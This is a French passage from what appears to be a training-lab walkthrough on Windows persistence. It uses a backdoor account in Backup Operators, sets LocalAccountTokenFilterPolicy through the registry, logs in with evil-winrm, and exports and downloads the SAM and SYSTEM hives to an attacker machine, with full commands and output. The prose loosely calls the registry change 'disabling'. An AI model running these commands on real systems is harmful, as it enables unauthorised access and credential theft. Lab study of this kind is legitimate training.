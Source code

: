 Pour pouvoir récupérer les privilèges d'administration de votre utilisateur, nous devrons désactiver LocalAccountTokenFilterPolicy en remplaçant la clé de registre suivante par 1 :

Invite de commande

```
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Une fois tout cela mis en place, nous sommes prêts à utiliser notre utilisateur de porte dérobée. Tout d'abord, établissons une connexion WinRM et vérifions que le groupe Opérateurs de sauvegarde est activé pour notre utilisateur :

Boîte d'attaque

```
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288

```

Nous procédons ensuite à une sauvegarde des fichiers SAM et SYSTEM et les téléchargeons sur notre machine attaquante :

Boîte d'attaque

```
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```
